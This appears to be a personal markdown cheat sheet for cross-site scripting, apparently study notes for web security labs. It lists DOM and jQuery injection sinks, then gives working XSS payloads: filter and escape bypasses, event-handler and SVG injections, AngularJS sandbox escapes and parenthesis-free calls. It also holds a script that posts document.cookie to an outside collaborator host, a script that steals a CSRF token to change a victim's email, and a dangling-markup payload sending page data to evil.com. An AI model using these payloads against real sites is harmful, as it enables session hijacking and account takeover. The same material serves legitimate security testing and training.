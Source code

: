 ```yaml
---
layout: app
title: "XSS"
tags: ["xss","angularjs","bypassjs"]
---
```


# CheatSheet

[Cross-Site Scripting (XSS) Cheat Sheet - 2023 Edition | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

# Directives

### DOM-XSS Weakness Functions

- **eval**
- **element.innerHTML**
- **replace**: Replace only change the first occurrence
- `document.write()`
- `document.writeln()`
- `document.domain`
- `element.outerHTML`
- `element.insertAdjacentHTML`
- `element.onevent`

### JQuery DOM-XSS

- add()
- after()
- append()
- animate()
- insertAfter()
- insertBefore()
- before()
- html()
- prepend()
- replaceAll()
- replaceWith()
- wrap()
- wrapInner()
- wrapAll()
- has()
- constructor()
- init()
- index()
- jQuery.parseHTML()
- $.parseHTML()

## ByPass

```jsx
(;)<>'"\"\'}{][
\"-alert()}//
\"
```

### innerhtml doesn’t accept script element, use alternative method

```jsx
<img src="" onerror="alert()" />
```

### Jquery or attribute change

```jsx
javascript:alert()
```

### window.location.hash

```jsx
#onload="this.src='<img src=1 onerror=alert()>'"
<iframe src="<**URL>**/#" onload="this.src+='<img src=x onerror=alert()>'"></iframe>
```

### svg

```jsx
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

### Break Sentence

```jsx
var text = '<**sentence here**>'  
<script><img src=1 onerror=alert()>
'-alert()-'
';alert()//

```

### Double Scape

When scape the special characters try to create or add other scape

```jsx
sentence = "'"
code = "\'"
**## Double Scape**
sentence = "\'"
cod = "\\'" => this try to interprete such as escape the slash but not the single quote
```

### Scape with HTML encoded chars

```jsx
/* Change ' by &apos; */
-&apos;-alert()-&apos;
```

[HTML Encode Online](https://emn178.github.io/online-tools/html_encode.html)

### String format or template literals

```jsx
/* SAMPLE */
var text="cyb3rb0b";console.log(`Hello ${text}`);

text=${alert}
```

## Calling Without Parentheses and semi-colons

[XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)

```jsx
<script>{onerror=alert}throw 1337</script>
&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

## Meta o Canonical Objects

- link
- meta
- <!DOCTYPE
- title

### FOCUS

```jsx
**Include # to the end of payload**
```

# AngularJS

```
&%7b&%7b $on.constructor('alert(1)')() }}
```

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

## Types

```jsx
<meta http-equiv="refresh" content="0; url=<pwnurl>">
```

<aside>
<img src="https://img.icons8.com/fluency/344/pdf.png" alt="https://img.icons8.com/fluency/344/pdf.png" width="40px" /> Funciona con PDF

</aside>

### Imagenes

```jsx
// Base64
<img src="data:image/png;base64," + iVBORw0KGg + alt="Red dot" />
// ByPass
- '//
- /
- '
```

# Steal Information

```jsx
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

```jsx
var req = new XMLHttpRequest();
req.onload = **handleResponse**;
req.open('get','/my-account',true);
req.send();
function **handleResponse**() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
```

# Dangling markup injection

```jsx
"><img src="//evil.com?
The browser sends all data from the question mark (?) to the closing double quotes
```

[Content Security Policy (CSP)](https://www.notion.so/Content-Security-Policy-CSP-4798b76110564446b4a950012fb2f285?pvs=21)